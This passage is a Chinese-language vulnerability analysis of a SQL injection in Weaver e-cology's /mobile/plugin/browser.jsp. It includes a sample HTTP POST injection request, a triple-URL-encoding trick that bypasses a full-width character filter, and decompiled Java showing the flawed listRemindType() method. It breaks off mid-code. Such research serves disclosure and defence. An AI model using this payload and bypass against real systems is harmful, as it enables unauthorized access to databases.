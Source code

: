 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230314160627.png)

继续往下，设置了很多参数值，但不过大部分参数都不是必须的。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230314160632.png)

最后到braction.getBrowserData()方法，这个方法位于classbean/weaver/mobile/webservices/common/BrowserAction.class文件。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230314160638.png)

最开始有对browserTypeId参数值进行判断，以及很多list开头的方法，接着还对method参数值进行判断，根据不同的值执行不同的list开头的方法，那么注入很大可能就存在某个list开头的方法之中。

先简单尝试注入一下，请求如下：

    
    
    POST /mobile/plugin/browser.jsp HTTP/1.1  
    Host:   
    Accept-Encoding: gzip, deflate  
    Accept: */*  
    Accept-Language: en  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36  
    Connection: close  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 54  
      
    isDis=1&browserTypeId=160&keyword=a%' union select 1,'

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230314160643.png)

可以发现一些与SQL注入相关的敏感关键词（'、select）均被全角化了。那尝试URL编码一下，一层URL编码的请求如下，服务器直接返回500了。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230314160646.png)

双层URL编码试试，如下图所示，服务器端依旧做了两次URL解码，然后发现'，将其转换成全角字符了，但不过select关键词却没有被全角化。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230314160648.png)

继续三层URL编码，通过下图可以发现，经过三层编码后的字符串被URL解码两次后顺利到达BrowserAction.getBrowserData()，而在每一个list开头的方法中都有一次URL解码操作，那么就能确保我们的SQL注入payload顺利传递到SQL查询语句中。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230314160650.png)

下面依次对各个list开头的方法进行审计，最后发现当browserTypeId等于269时，执行的listRemindType()方法中存在一个有回显的SQL注入漏洞。

    
    
    public void listRemindType() {  
        try {  
            new MeetingBrowser();  
            this.keyword = URLDecoder.decode(this.keyword, "UTF-8");  
            if (this.pageInfo.getPageNo() > 0) {  
                this.pageInfo.setPageNo(this.pageInfo.getPageNo());  
            }  
      